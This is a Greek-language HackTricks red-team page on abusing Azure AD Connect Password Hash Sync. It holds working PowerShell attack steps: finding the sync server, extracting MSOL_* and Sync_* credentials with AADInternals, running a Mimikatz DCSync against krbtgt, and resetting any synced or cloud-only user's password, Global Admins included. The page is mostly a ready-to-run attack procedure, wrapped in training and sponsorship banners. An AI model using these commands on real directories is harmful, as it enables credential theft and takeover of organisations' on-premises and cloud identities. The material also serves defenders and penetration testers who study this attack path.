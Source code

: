 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Η συγχρονισμένη κωδικοποίηση κωδικών πρόσβασης** είναι μία από τις μεθόδους σύνδεσης που χρησιμοποιούνται για την επίτευξη υβριδικής ταυτότητας. **Το Azure AD Connect** συγχρονίζει μια κωδικοποίηση, της κωδικοποίησης, του κωδικού πρόσβασης ενός χρήστη από μια τοπική εγκατάσταση Active Directory σε μια cloud-based Azure AD εγκατάσταση.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Είναι η **πιο κοινή μέθοδος** που χρησιμοποιούν οι εταιρείες για να συγχρονίσουν μια τοπική AD με το Azure AD.

Όλοι οι **χρήστες** και μια **κωδικοποίηση των κωδικών πρόσβασης** συγχρονίζονται από την τοπική AD στο Azure AD. Ωστόσο, οι **κωδικοί πρόσβασης σε καθαρό κείμενο** ή οι **αρχικοί** **κωδικοί** δεν αποστέλλονται στο Azure AD.\
Επιπλέον, οι **ενσωματωμένες** ομάδες ασφαλείας (όπως οι διαχειριστές τομέα...) **δεν συγχρονίζονται** στο Azure AD.

Η **συγχρονισμένη κωδικοποίηση** συμβαίνει κάθε **2 λεπτά**. Ωστόσο, από προεπιλογή, η **λήξη κωδικού πρόσβασης** και η **λήξη λογαριασμού** **δεν συγχρονίζονται** στο Azure AD. Έτσι, ένας χρήστης του οποίου ο **τοπικός κωδικός πρόσβασης έχει λήξει** (δεν έχει αλλάξει) μπορεί να συνεχίσει να **έχει πρόσβαση σε πόρους Azure** χρησιμοποιώντας τον παλιό κωδικό.

Όταν ένας τοπικός χρήστης θέλει να αποκτήσει πρόσβαση σε έναν πόρο Azure, η **αυθεντικοποίηση πραγματοποιείται στο Azure AD**.

**PHS** απαιτείται για δυνατότητες όπως **Identity Protection** και AAD Domain Services.

## Pivoting

Όταν το PHS είναι ρυθμισμένο, μερικοί **προνομιούχοι λογαριασμοί** δημιουργούνται αυτόματα:

* Ο λογαριασμός **`MSOL_<installationID>`** δημιουργείται αυτόματα στην τοπική AD. Αυτός ο λογαριασμός έχει ρόλο **Λογαριασμών Συγχρονισμού Καταλόγου** (βλ. [τεκμηρίωση](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) που σημαίνει ότι έχει **δικαιώματα αναπαραγωγής (DCSync) στην τοπική AD**.
* Ένας λογαριασμός **`Sync_<name of on-prem ADConnect Server>_installationID`** δημιουργείται στο Azure AD. Αυτός ο λογαριασμός μπορεί να **επαναφέρει τον κωδικό πρόσβασης ΟΠΟΙΟΥΔΗΠΟΤΕ χρήστη** (συγχρονισμένου ή μόνο cloud) στο Azure AD.

Οι κωδικοί πρόσβασης των δύο προηγούμενων προνομιούχων λογαριασμών **αποθηκεύονται σε έναν SQL server** στον διακομιστή όπου **είναι εγκατεστημένο το Azure AD Connect.** Οι διαχειριστές μπορούν να εξάγουν τους κωδικούς πρόσβασης αυτών των προνομιούχων χρηστών σε καθαρό κείμενο.\
Η βάση δεδομένων βρίσκεται στο `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Είναι δυνατή η εξαγωγή της ρύθμισης από έναν από τους πίνακες, με έναν κρυπτογραφημένο:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Η **κρυπτογραφημένη ρύθμιση** είναι κρυπτογραφημένη με **DPAPI** και περιέχει τους **κωδικούς πρόσβασης του χρήστη `MSOL_*`** στην τοπική AD και τον κωδικό πρόσβασης του **Sync\_\*** στο AzureAD. Επομένως, η παραβίαση αυτών επιτρέπει την ανύψωση προνομίων στην AD και στο AzureAD.

Μπορείτε να βρείτε μια [πλήρη επισκόπηση του πώς αποθηκεύονται και αποκρυπτογραφούνται αυτά τα διαπιστευτήρια σε αυτή την ομιλία](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Εάν ο **διακομιστής όπου είναι εγκατεστημένο το Azure AD connect** είναι συνδεδεμένος σε τομέα (συνιστάται στην τεκμηρίωση), είναι δυνατή η εύρεση του με:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Κατάχρηση MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Μπορείτε επίσης να χρησιμοποιήσετε το [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) για να αποκτήσετε αυτά τα διαπιστευτήρια.
{% endhint %}

### Κατάχρηση του Sync\_\*

Η παραβίαση του **`Sync_*`** λογαριασμού επιτρέπει την **επανεκκίνηση του κωδικού πρόσβασης** οποιουδήποτε χρήστη (συμπεριλαμβανομένων των Παγκόσμιων Διαχειριστών)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Είναι επίσης δυνατό να **τροποποιηθούν οι κωδικοί πρόσβασης μόνο των χρηστών του cloud** (ακόμα και αν αυτό είναι απροσδόκητο)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Είναι επίσης δυνατό να εκχυθεί ο κωδικός πρόσβασης αυτού του χρήστη.

{% hint style="danger" %}
Μια άλλη επιλογή θα ήταν να **ανατεθούν προνομιακές άδειες σε έναν υπηρεσιακό κύριο**, τον οποίο ο χρήστης **Sync** έχει **δικαιώματα** να κάνει, και στη συνέχεια να **προσεγγιστεί αυτός ο υπηρεσιακός κύριος** ως τρόπος privesc.
{% endhint %}

### Seamless SSO

Είναι δυνατό να χρησιμοποιηθεί το Seamless SSO με το PHS, το οποίο είναι ευάλωτο σε άλλες καταχρήσεις. Ελέγξτε το εδώ:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Αναφορές

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
